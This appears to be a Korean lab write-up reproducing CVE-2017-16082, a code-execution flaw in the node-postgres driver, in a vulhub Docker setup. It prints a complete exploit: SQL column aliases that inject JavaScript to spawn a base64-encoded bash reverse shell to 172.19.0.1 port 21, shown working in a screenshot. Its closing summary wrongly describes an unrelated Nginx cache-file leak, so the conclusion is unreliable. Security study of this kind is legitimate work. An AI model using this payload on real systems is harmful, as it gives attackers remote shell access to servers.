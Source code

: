 # CVE-2017-16082

**Contributors**

-   [신지연(@jiyeondu)](https://github.com/jiyeondu)

<br/>

### 보안 취약점

-   node-postgres는 Node.js 어플리케이션과 PostgreSQL 데이터베이스 간의 상호 작용을 도와주는 라이브러리(드라이버)이다. 이 드라이버를 사용하면 Node.js 어플리케이션에서 PostgreSQL 데이터베이스에 연결하고 데이터를 쿼리하거나 수정할 수 있다. 
-   node-postgres는 PostgreSQL 데이터베이스에서 반환된 Row Description (행 설명) 유형의 응답 패키지를 처리할 때, 필드 이름을 코드에 직접 연결함. 
-   만약 row description에서 제공하는 열 이름이 사용자 입력에 기반하여 동적으로 생성되고, 쿼리에 직접 삽입된다면 SQL인젝션 공격이 가능하다. 

<br/>

### 환경구성 및 실행

#### 기본 환경 구성
-   가상머신 설치 (기존에 있던 ubuntu 20.04에서 진행)
-   `apt-get install sqlmap -y`을 실행하여 sqlmap 설치
-   `sudo systemctl status docker` 를 실행하여 docker 운행여부 확인.
-   `git clone https://github.com/vulhub/vulhub.git` vulhub 레포 로컬에 복사
-   `docker compose build`
-   `docker compose up -d`를 실행하여 테스트 환경을 실행함.


#### 컴파일 및 실행
-   `http://your-ip:3000/?id=1`에 접속하여 id1의 사용자 정보를 확인.  
-   sqlmap을 사용하여 여기에 삽입점이 있음을 발견할 수 있으며, 데이터베이스가 PostgreSQL임을 알 수 있다.

![](img/1.png)
![](img/1-2.png)

-   node-postgres의 코드 실행 취약점이 있을 가능성이 있다. 
-   `echo bash -i >& /dev/tcp/172.19.0.1/21 0>&1|base64 -d|bash`와 같은 명령을 작성한 다음, 적절히 분할하여 각 세그먼트의 길이가 64 문자를 초과하지 않도록 만든 다음

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`)//"
```
![](img/2.png)

-   리버스 쉘

![](img/3.png)

<br/>

### 정리

-   이 취약점은 공격자가 Nginx 서버의 캐시 파일에서 예상치 못한 데이터를 읽을 수 있게 만들어, 정보 유출의 위험이 있음. 안전한 웹 서비스 운영을 위해서는 이러한 취약점을 주기적으로 확인하고 패치하는 것이 중요함.


